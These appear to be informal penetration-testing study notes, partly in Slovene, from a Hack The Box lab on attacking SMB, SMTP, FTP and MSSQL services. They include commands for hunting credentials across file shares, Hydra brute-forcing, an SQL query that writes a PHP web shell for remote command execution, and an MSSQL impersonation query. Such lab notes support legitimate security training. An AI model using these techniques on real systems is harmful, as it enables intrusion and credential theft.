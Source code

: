 
## Server Message Block (SMB)

```cmd
net use n: \\192.168.220.129\Finance /user:plaintext Password123
```

  
Interacting with Common Services

```shell-session
dir n: /a-d /s /b | find /c ":\"
```

| **Syntax** | **Description**                                                |
| ---------- | -------------------------------------------------------------- |
| `dir`      | Application                                                    |
| `n:`       | Directory or drive to search                                   |
| `/a-d`     | `/a` is the attribute and `-d` means not directories           |
| `/s`       | Displays files in a specified directory and all subdirectories |
| `/b`       | Uses bare format (no heading information or summary)           |

If we want to search for a specific word within a text file, we can use [findstr](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr).

  
Interacting with Common Services

```cmd
c:\htb>findstr /s /i cred n:\*.*

n:\Contracts\private\secret.txt:file with all credentials
n:\Contracts\private\credentials.txt:admin:SecureCredentials!
```

https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/findstr#examples

#### Windows PowerShell

```powershell
Get-ChildItem \\192.168.220.129\Finance\
```

mount the drive
```powershell
 New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem"
```

opening with credentials

```powershell
 $username = 'plaintext'
 $password = 'Password123'
 $secpassword = ConvertTo-SecureString $password -AsPlainText -Force
 $cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
 New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem" -Credential $cred
```




#### attackign common services easy (bs)

smtp enum userjev

-> dobim fiona@inlanefreight.htb

hydra smpt za geslo od fiona
-> rockyou wordlist

ftp -> commande
```
oreFTP:
Directory C:\CoreFTP
Ports: 21 & 443
Test Command: curl -k -H "Host: localhost" --basic -u <username>:<password> https://localhost/docs.txt

Apache
Directory "C:\xampp\htdocs\"
Ports: 80 & 4443
Test Command: curl http://localhost/test.php

```
webshellupload preko sql

```
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'
```

v browser potem 

```
basuerl/weshell.php?c= <komande>

```

## MSSQL IMPERSONAITE

```cmd-session
SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```

https://github.com/missteek/cpts-quick-references/blob/main/assessments/Attacking%20Common%20Services%20-%20Hard.md

